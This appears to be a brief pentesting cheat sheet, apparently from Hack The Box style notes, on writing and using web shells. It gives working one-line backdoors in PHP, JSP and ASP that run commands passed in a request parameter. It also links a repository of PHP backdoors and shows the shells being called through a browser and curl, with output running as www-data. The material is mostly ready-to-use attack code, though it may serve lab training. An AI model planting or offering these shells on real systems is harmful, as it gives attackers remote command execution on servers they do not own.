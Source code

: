 # Writing A web sehll

# PHP 

https://raw.githubusercontent.com/F-Masood/php-backdoors/main/rce.php

```bash

<?php system($_GET['cmd']); ?>

//or

//<?php echo (shell_exec($_GET['cmd'])); ?>

```


# jsp

```bash
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

# asp

```bash
<% eval request("cmd") %>
```

# Accessing a web shell
* you can access it through a browser
```bash
http://SERVER_IP:PORT/shell.php?cmd=id
```
[OR]

* You can access it through curl
```bash
Mrwelldone@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
